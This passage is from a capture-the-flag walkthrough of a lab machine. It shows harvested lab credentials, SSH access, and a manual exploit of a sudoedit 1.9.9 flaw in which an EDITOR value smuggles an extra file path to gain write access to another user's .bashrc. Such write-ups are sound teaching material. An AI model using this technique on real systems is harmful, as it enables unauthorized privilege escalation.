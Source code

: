 E: Click on ‘Vault’ at the top.  The chrome page shows:


![image](https://user-images.githubusercontent.com/93153300/234540365-48577479-bce0-4de9-a7de-3537b6d37818.png) 

The page shows credentials of ‘Edwards:d07867c6267dcb5df0af’ and ‘dedwards_ _:7dbfe676b6b564ce5718’.

Step 5: Use the ‘edwards’ credentials to ssh into user edwards: ssh edwards@superpass.htb → enter the password when promted.

We have shell as user edwards.
__________________________________________________________
<b>Privilege Escalation:</b><br>
Step 1: Sudo -l shows:

![image](https://user-images.githubusercontent.com/93153300/234556691-218c4776-1a13-40e3-847b-3c13ee7c0edb.png) 
  
This shows that we have permission to run sudoedit as user dev_admin to read two files: /app/config_test.json and /app/app-testing/tests/functional/creds.txt.

We can open these files using the command: ‘sudoedit -u dev_admin /app/config_test.json’ and ‘sudoedit -u dev_admin /app/app-testing/tests/functional/creds.txt’

Reading these two files shows credentials, but these credentials seem to be a rabbit hole.

Step 2: Check sudoedit version using command: sudoedit --version

![image](https://user-images.githubusercontent.com/93153300/234556729-bc6dcc3b-15e3-4589-99de-17597af58742.png) 

Step 3: Google search ‘sudoedit 1.9.9 exploit’ finds an exploitdb 51217
and many articles explaining how to exploit this version.  Download the exploit using command: searchsploit -m 51217.  

Step 4: Reading the source code to 51217 reveals that the vulnerability in this version of sudoedit allows us to use sudoedit to open any file as the elevated user instead of just the specified files in sudo -l.   

We can’t just run 51217 because the exploit deals with having sudoedit as root while we have sudoedit as dev_admin.  Therefore, we will exploit this manually.  

Step 5: On the target shell run the command: EXPLOITABLE='sudoedit -u dev_admin /app/app-testing/tests/functional/creds.txt'

This will set the environment variable ‘$EXPLOITABLE’  to  sudoedit -u dev_admin /app/app-testing/tests/functional/creds.txt.

Step 6: We do not have access to read or write /home/dev_admin/.bashrc.  Therefore, if we run the command vim /home/dev_admin/.bashrc then we get an error response saying permission denied.  However, using the sudoedit exploit we found we can get access to read and write this file.  

Run the command: EDITOR="vim -- /home/dev_admin/.bashrc" $EXPLOITABLE

This command opens /home/dev_admin/.bashrc with read and write privileges.  
  
Step 7: Now that we know that we can write to any file that user dev_admin has write permissions on, let’s find what files dev_admin has write access to.  A quick and easy way to find these files is to run the command: find / -group dev_admin -ls 2>/dev/null.  
